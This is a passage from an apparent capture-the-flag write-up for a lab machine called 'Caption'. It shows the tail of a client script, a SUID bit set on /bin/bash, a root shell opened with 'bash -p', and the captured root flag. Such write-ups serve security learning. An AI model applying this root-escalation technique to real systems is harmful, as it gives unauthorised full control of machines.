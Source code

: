 ```c
    transport.close()

if __name__ == '__main__':
    main()
```

We executed it and and got `code execution` as `root`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Caption/file/gen-py]
└─$ python3 client.py 
Server response: Log file processed
```

```c
margo@caption:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```c
margo@caption:/tmp$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat root.txt 
57d9828d567c457807a9d3546c3dee53
```
